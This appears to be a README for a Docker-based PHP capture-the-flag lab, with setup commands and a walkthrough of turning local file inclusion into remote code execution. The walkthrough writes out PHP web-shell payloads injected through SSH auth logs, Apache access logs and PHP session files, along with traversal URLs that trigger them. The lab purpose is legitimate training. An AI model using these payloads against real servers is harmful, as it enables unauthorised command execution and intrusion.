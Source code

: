 # Build Image
```
$ sudo docker build -t my-php-app .
```

# Run Container
```
$ sudo docker run -d --name my-running-app my-php-app

ba9f2ada7228.............................
```

# Start Apache Server
```
$ sudo docker exec -it ba9f2ada7228 /bin/bash

root@ba9f2ada7228:/var/www/html# service apache2 start

[....] Starting Apache httpd web server: apache2AHD0318: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
. ok 

```

Now, we can access our server on 172.17.0.2

# Hack It!
There is many way to get flag but the main attack is "lfi to rce". We choose to go with stored way.

CheatSheet: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

## Stored RCE
The consept is using to any of log files for store our php code. Some of these are; http access log (for apache: `/var/log/apache2/access.log`, for nginx `/var/log/nginx/access.log`), ssh auth log (`/var/log/auth.log`) ...

### Using SSH
```
$ ssh '<?=shell_exec($_GET["cmd"])?>@example.com'
```
When we try to connect our log saved under `/var/log/auth.log`.

```
........
May  1 16:17:43 owl sshd[9024]: Accepted publickey for root from 192.168.0.101 port xxxx ssh2
May  1 20:17:43 owl sshd[9024]: ... <?=shell_exec($_GET["cmd"])?> from 121.2xx.xx.xxx port xxxx ssh2
........
```

Now we can access our shell.
`/index.php?page=../../../../../var/log/auth.log&cmd=ls`

### Using Access Log
Send GET request including our php code.
```
GET /test.php <?=system($_GET["cmd"])?> 
```
Now our access log saved into `/var/log/apache2/access.log` (if server uses apache with default configurations).
```
...
172.17.0.1 - - [28/Mar/2020:11:31:58 +0000] "GET /test.php <?=system($_GET["cmd"])?>" 400 0 "-" "-"
...
```
Now we can access our shell.
`/index.php?page=../../../../../var/log/apache2/access.log&cmd=ls`

### Bonus: Using PHP Sessions
Find anything stored in session, like username etc. And type your code and save it to session. Open developer tools and get your session id from cookie `PHPSESSID`. Your session stored in `/tmp/sess_YOUR-PHPSESSID`. Forexample if you enter your user name `test` and if your PHPSESSID value `aecfe47a0f5a42e1bc5941893d45b223` 
```
root@ba9f2ada7228:/# cat /tmp/sess_aecfe47a0f5a42e1bc5941893d45b223 
user|s:4:"test";
```

if you set your user name <?=shell_exec($_GET[cmd]);?>
```
root@ba9f2ada7228:/# cat /tmp/sess_aecfe47a0f5a42e1bc5941893d45b223 
user|s:28:"<?=shell_exec($_GET[cmd]);?>";
```
Now we can access our shell.
`/index.php?page=../../../../../tmp/sess_aecfe47a0f5a42e1bc5941893d45b223&cmd=ls`